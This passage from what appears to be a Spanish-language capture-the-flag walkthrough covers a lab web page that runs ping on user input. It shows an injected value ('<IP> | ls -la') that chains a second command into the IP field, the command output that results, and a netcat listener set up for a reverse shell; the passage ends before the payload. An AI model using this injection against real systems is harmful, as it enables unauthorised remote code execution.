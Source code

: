```
URL = http://<IP>/d05notfound/
```

Veremos un archivo llamado `d05notfound.php` por lo que nos meteremos en el y veremos otra pagina en la que hay mucha informacion, pero si bajamos a bajo del todo, veremos algo interesante, donde pone `Introduzca la dirección IP`, si ponemos hay nuestra IP o la que sea va a realizar un ping, pero no se va a ver en la pagina tendremos que darle a inspeccionar codigo y veremos los resultados del ping.

```
PING 192.168.5.145 (192.168.5.145) 56(84) bytes of data.
64 bytes from 192.168.5.145: icmp_seq=1 ttl=64 time=0.057 ms
64 bytes from 192.168.5.145: icmp_seq=2 ttl=64 time=0.050 ms
64 bytes from 192.168.5.145: icmp_seq=3 ttl=64 time=0.042 ms
64 bytes from 192.168.5.145: icmp_seq=4 ttl=64 time=0.044 ms

--- 192.168.5.145 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3078ms
rtt min/avg/max/mdev = 0.042/0.048/0.057/0.005 ms
```

Pero mas abajo poner `resultados de comando:` por lo que da pie a que puedes concatenar comandos, probaremos a introducir el siguiente comando.

```shell
<IP> | ls -la
```

Lo ejecutamos y visualizamos de nuevo el codigo.

```
PING 192.168.5.145 (192.168.5.145) 56(84) bytes of data.
64 bytes from 192.168.5.145: icmp_seq=1 ttl=64 time=0.060 ms
64 bytes from 192.168.5.145: icmp_seq=2 ttl=64 time=0.247 ms
64 bytes from 192.168.5.145: icmp_seq=3 ttl=64 time=0.051 ms
64 bytes from 192.168.5.145: icmp_seq=4 ttl=64 time=0.050 ms

--- 192.168.5.145 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3048ms
rtt min/avg/max/mdev = 0.050/0.102/0.247/0.083 ms

</pre><h2>Resultado del Comando:</h2><pre>total 20
drwxr-xr-x 2 root root 4096 Aug 13 14:42 .
drwxr-xr-x 3 root root 4096 Aug 13 14:52 ..
-rw-r--r-- 1 root root 8300 Aug 13 14:40 d05notfound.php
```

Por lo que vemos funciona, ahora intentaremos hacernos una `Reverse Shell` hacia la maquina con esta vulnerabildiad de la siguiente forma.

## Reverse Shell

Pero antes estaremos a la escucha para capturar la peticion.

```shell
nc -lvnp <PORT>
```
